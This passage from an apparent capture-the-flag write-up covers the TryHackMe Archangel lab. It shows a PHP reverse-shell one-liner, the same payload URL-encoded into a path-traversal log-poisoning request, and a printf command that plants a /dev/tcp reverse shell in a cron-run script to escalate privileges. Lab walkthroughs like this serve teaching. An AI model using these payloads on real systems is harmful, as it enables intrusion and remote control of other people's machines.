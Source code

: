 To execute the shell, setup a nc listener:

Then  we just navigate to `http://mafialive.thm/shell.php` - and we get a reverse shell.

<figure><img src=".gitbook/assets/image (168).png" alt=""><figcaption></figcaption></figure>

Another way to get Reverse Shell is to get a php oneliner from payloadallthethings:

`php -r '$sock=fsockopen("10.18.88.214",4445);exec("/bin/sh -i <&3 >&3 2>&3");'` - url encode it and pass it as cmd in the browser.

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//../var/log/apache2/access.log&cmd=%70%68%70%20%2d%72%20%27%24%73%6f%63%6b%3d%66%73%6f%63%6b%6f%70%65%6e%28%22%31%30%2e%31%38%2e%38%38%2e%32%31%34%22%2c%34%34%34%35%29%3b%65%78%65%63%28%22%2f%62%69%6e%2f%73%68%20%2d%69%20%3c%26%33%20%3e%26%33%20%32%3e%26%33%22%29%3b%27
```
{% endcode %}

### Priv Esc

Lets look for files owned by the "Archangel" user that we can read.

`find / -user archangel -type f -readable -exec ls -al {} ; 2>/dev/null` .

We see a `/opt/helloworld.sh` file that we have read and write permissions over. And it looks like a cronjob. Viewing `cat /etc/crontab` - we see it there (this cron schedule entry specifies that the script `/opt/helloworld.sh` should be executed every minutes by the `archangel` user.

We can edit it with a rev shell and priv esc to "Archangel" user.

{% code overflow="wrap" lineNumbers="true" %}
```bash
printf '#!/bin/bash\n\n/bin/bash -l > bash -i >& /dev/tcp/10.18.88.214/4242 0>&1\n' > /opt/helloworld.sh
```
{% endcode %}

And i got a shell.

<figure><img src=".gitbook/assets/image (169).png" alt=""><figcaption></figcaption></figure>

We find SUID binaries again:
